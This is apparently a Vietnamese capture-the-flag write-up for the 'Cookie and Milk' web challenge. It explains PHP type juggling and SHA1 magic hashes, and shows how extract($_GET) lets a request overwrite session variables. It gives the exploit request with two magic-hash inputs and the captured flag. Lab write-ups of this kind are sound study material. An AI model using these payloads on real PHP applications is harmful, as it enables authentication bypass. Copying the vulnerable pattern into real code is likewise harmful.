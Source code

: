 # Cookie and Milk 
[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐÀUA VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
